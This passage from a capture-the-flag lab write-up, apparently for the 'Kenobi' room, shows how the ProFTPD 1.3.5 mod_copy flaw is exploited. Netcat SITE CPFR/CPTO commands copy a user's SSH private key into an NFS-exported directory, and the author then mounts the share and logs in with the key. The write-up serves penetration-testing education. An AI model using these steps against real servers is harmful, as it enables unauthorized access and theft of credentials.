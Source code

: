 From this search result, we can see there are *4 exploits*.

**Q3**
*No answer needed.*

From the search results above we can see that there is an exploit from ProFTPD's mod_copy.
* The mod_copy module implements SITE CPFR and SITE CPTO commands, which can be used to copy files/directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination.

**Q4**

Using this vulnerablitiy we can move the private key for Kenobi to the /var directory since from enumerating the file system we were able to see that the /var directory was the mount we could see.

```
> nc 10.10.190.38 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.190.38]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful
```

After connecting to the machine using netcat, use the command `SITE CPFR /home/kenobi/.ssh/id_rsa` in order to established the file in which we would like to copy which is the private key for Kenobi.

Then enter the command `SITE CPTO /var/tmp/id_rsa` in order to tell the file where it is being copied too.

*no answer needed*

**Q5: What is Kenobi's user flag?**

Now in order to grab the private key and sign in to Kenobi's machine we need to mount the directory to our machine and copy the private key on to our machine.

use the following commands: 
`sudo mkdir /mnt/kenobiNFS`
`sudo mount target_ip:/var /mnt/kenobiNFS`

We now have the directory mounted to our machine, to copy the private key to your machine use the command `cp /mnt/kenobiNFS/tmp/id_rsa .`

To connect to Kenobi's machine use the following commands:
`sudo chmod 600 id_rsa`
`ssh -i id_rsa kenobi@target_ip`

```
ssh -i id_rsa kenobi@10.10.190.38
The authenticity of host '10.10.190.38 (10.10.190.38)' can't be established.
ECDSA key fingerprint is SHA256:uUzATQRA9mwUNjGY6h0B/wjpaZXJasCPBY30BvtMsPI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.190.38' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.8.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

103 packages can be updated.
65 updates are security updates.


Last login: Wed Sep  4 07:10:15 2019 from 192.168.1.147
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

kenobi@kenobi:~$ 

```